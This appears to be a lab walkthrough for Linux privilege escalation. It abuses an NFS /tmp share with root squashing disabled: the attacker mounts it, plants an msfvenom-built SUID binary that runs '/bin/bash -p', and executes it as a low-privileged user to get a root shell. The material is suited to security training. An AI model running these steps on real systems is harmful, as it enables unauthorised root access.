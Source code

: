 Check the NFS share configuration on the Debian VM:


```Shell
cat /etc/exports
```
Note that the **/tmp** share has root squashing disabled.

On your Kali box, switch to your root user if you are not already running as root:


```Shell
sudo su
```

Using Kali's root user, create a mount point on your Kali box and mount the **/tmp** share (update the IP accordingly):


```Shell
mkdir /tmp/nfs   mount -o rw,vers=3 10.10.10.10:/tmp /tmp/nfs
```

Still using Kali's root user, generate a payload using **msfvenom** and save it to the mounted share (this payload simply calls /bin/bash):


```Shell
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
```

Still using Kali's root user, make the file executable and set the SUID permission:


```Shell
chmod +xs /tmp/nfs/shell.elf
```

Back on the Debian VM, as the low privileged user account, execute the file to gain a root shell:


```Shell
/tmp/shell.elf
```
